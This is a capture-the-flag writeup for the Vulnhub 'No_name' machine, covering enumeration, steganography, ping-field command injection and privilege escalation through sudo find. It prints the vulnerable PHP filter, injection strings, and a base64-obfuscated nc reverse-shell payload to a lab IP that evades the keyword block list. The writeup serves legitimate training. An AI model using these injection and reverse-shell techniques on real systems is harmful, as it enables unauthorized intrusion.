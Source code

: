 ```yaml
---
layout: post
title: Vulnhub - No_name writeup
date: 2019-02-15 8:00 PM
---
```


## Nmap

![](images/noname/nmap.png)

We see only one port is open so that is what we are going to enumerate more

***

## HTTP

![](images/noname/website.png)

It's very simple and plain website. I started gobuster scan on it to see if we can find any hidden directory.

![](images/noname/gobuster.png)

We can see that there is `/admin`. And if we open that page we see some images:

![](images/noname/admin.png)

And in the comment I found a phassphrase

![](images/noname/pass.png)

When I saw that it said `passphrase` and the webpage had some image file I knew it right away that in one of these files we'll find something hidden. So I tried all the images and found something in `haclabs.jpeg`(the one with spiderman on it)

I used the following command to extract the file from the image:
```bash
steghide --extract -sf haclabs.jpeg -p harder
```

![](images/noname/extract.png)

And this gave me `imp.txt`. That file had a base64 encoded string which gave me a name of file called `superadmin.php`

![](images/noname/b64.png)

When we open that page we see a utility that takes IP as an input and pings it. Now obviously we can test this input for `RCE`.
After some trial I was able to execute command using `|` i.e if we enter `127.0.0.1 | whoami` it will give us `www-data`.

![](images/noname/rce.png)

Before I tried to get the reverse shell I tried to read the source of the `superadmin.php` to see what all command is restricted.

```
127.0.0.1 | cat superadmin.php
```

![](images/noname/source.png)

```php
?php
   if (isset($_POST['submitt']))
{
   	$word=array(";","&&","/","bin","&"," &&","ls","nc","dir","pwd");
   	$pinged=$_POST['pinger'];
   	$newStr = str_replace($word, "", $pinged);
   	if(strcmp($pinged, $newStr) == 0)
		{
		    $flag=1;
		}
       else
		{
		   $flag=0;
		}
}

if ($flag==1){
$outer=shell_exec("ping -c 3 $pinged");
echo "<pre>$outer</pre>";
}
?>


</pre>
```
We can see that there are some commands that are not allowed at all. So we can use `nc.traditional` to get a reverse shell but the issue with that would be `nc` string would still be detected. So to bypass this I simply base64 encoded the following payload:

```bash
nc.traditional -e /bin/bash 192.168.1.125 4444
```

And then sent the following command in that IP box

```
127.0.0.1 | `echo "bmMudHJhZGl0aW9uYWwgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguMS4xMjUgNDQ0NAo=" | base64 -d`
```
![](images/noname/rev.png)

***

## Privilege escalation

I ran my enumeration script but couldn't find anything in that. So I started to look around manually. In `/home/yash` I found `flag1.txt` which said that we need to find some hidden file.

![](images/noname/flag1.png)

I used the `find` command to find the hidden file.

![](images/noname/hidden.png)

and then found the password for `haclabs` account.

![](images/noname/passwd.png)

`haclabs:haclabs1234`

as we noticed that in `haclabs` there was a file named `.sudo_admin...` that means there are some sudo rights for `haclabs` so after I `su` to that account I ran `sudo -l` to see what he's allowed to run.

![](images/noname/sudo.png)

as we can see he can run `find` command as root. We can use [gtfo](https://github.com/mzfr/gtfo) to search gtfobins from terminal.

![](immages/noname/gtfo.png)

Now using the `sudo` trick we can get root shell.

![](images/noname/root-shell.png)

![](images/noname/root.png)

***

That's it for now.

Thanks for reading, feedback is always appreciated.

Follow me [@0xmzfr](https://twitter.com/0xmzfr) for more “Writeups”. And if you'd like to support me considering [donating](https://mzfr.github.io/donate/) 😄
